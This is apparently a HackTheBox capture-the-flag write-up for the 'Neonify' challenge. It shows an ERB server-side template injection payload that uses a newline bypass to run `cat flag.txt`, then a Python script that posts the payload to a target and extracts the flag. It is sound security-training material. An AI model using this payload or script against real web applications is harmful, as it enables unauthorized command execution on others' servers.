

# HackTheBox — Neonify [Easy]

In this write-up, we will solve the **Neonify** challenge from HackTheBox. The goal is to analyze the web application, identify its weaknesses, and use them to gain command execution in order to retrieve the flag. Along the way, we will break down each step of the exploitation process to clearly demonstrate how the vulnerability can be discovered and leveraged.

Let’s navigate to the website.



Now let’s see the source code of the application.


> Notice that we found that our input is used in a template engine named ERB.
> 

Now let’s exploit the **template injection**.

```python
SecretRemo%0a<%25=+`cat+flag.txt`+%25>
```


> As we see we managed to get the flag!
> 

Now let’s write the exploitation script for the challenge

```python
import requests
import re

target = input("Please Enter Target (ex: 127.0.0.1:1337): ")
url = f"http://{target}/"

headers = {
    "Content-Type": "application/x-www-form-urlencoded"
}

data = "neon=SecretRemo%0a<%25=+`cat+flag.txt`+%25>"

def exploit():
    try:
        r = requests.post(url, headers=headers, data=data, timeout=5)

        match = re.search(r"(HTB\{.*?\})", r.text)
        if match:
            print("[+] FLAG:", match.group(1))
        else:
            print("[!] Flag not found in response")
    except requests.RequestException as e:
        print(f"[!] Request failed: {e}")

if __name__ == "__main__":
    exploit()

```


Now let’s go and run the script to get the flag!


> As we see we got the flag!
> 

🎯 Conclusion

By following the exploitation path and carefully analyzing the challenge, we were able to identify the vulnerability and successfully obtain the flag. This highlights the importance of secure coding practices and the risks of improper input handling in web applications.

*Written by **SecretRemo*** ✍️

CRTE | CRTP | CRTO | eWPTX | eCPPT | eMAPT